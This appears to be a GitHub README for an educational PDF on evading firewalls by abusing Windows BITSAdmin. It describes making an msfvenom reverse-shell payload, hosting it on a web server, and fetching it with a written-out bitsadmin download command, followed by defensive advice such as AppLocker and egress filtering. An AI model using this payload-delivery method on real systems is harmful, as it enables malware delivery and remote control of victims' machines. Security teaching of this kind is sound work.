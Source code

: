 # Firewall Evasion: Bypassing Security Controls with Windows BITSAdmin

This repository contains a case study report on **firewall evasion techniques**.  
The PDF demonstrates how attackers can abuse the **Windows BITSAdmin utility** (a legitimate background transfer tool) to bypass firewalls and deliver malicious payloads.

## 📄 Contents

The PDF includes:

### Introduction
- Role of firewalls and IDS in network defense.  
- How attackers leverage "living off the land" techniques.  
- Abuse of trusted system tools to avoid detection.

### Step-by-Step Walkthrough
1. **Enable Windows Firewall**  
   - Configure Windows Defender Firewall on target machine.  
2. **Generate a Malicious Payload**  
   - Use `msfvenom` to create a Windows reverse shell (`Exploit.exe`).  
3. **Host the Payload**  
   - Place payload on Apache web server (`/var/www/html/share/`).  
4. **Transfer File Using BITSAdmin**  
   - Execute:  
     ```powershell
     bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe C:\Exploit.exe
     ```  
5. **Confirm Placement**  
   - Verify `C:\Exploit.exe` on the target system.  

### Real-World Application
- Attackers often use **Windows-native tools** like BITSAdmin to bypass security controls.  
- Since BITSAdmin is a **Microsoft-signed utility**, firewalls and AV often allow its traffic.  
- Payload delivery appears as normal HTTP traffic, avoiding suspicion.  
- Once executed, the attacker establishes a **reverse shell** for persistence.  

### Defensive Takeaways
✅ Implement **behavior-based monitoring** instead of just signature-based detection.  
✅ Restrict usage of administrative tools like **BITSAdmin** with AppLocker or WDAC.  
✅ Apply **egress filtering** to control outbound connections.  
✅ Monitor unusual or unauthorized **HTTP/S destinations**.  

## ⚠️ Disclaimer
This project is provided **for educational and research purposes only**.  
It illustrates how attackers misuse trusted tools to evade security controls.  
Do not attempt these techniques without explicit authorization.  

## 📂 File
- `Firewall Evasion.pdf`

## 🔗 References
- [BITSAdmin (Microsoft Docs)](https://learn.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool)  
- [Metasploit msfvenom](https://docs.rapid7.com/metasploit/msfvenom/)  
- [AppLocker](https://learn.microsoft.com/en-us/windows/security/threat-protection/applocker/applocker-overview)  

---

💡 This research demonstrates the importance of **detecting abuse of trusted tools** ("living off the land") in modern cybersecurity.
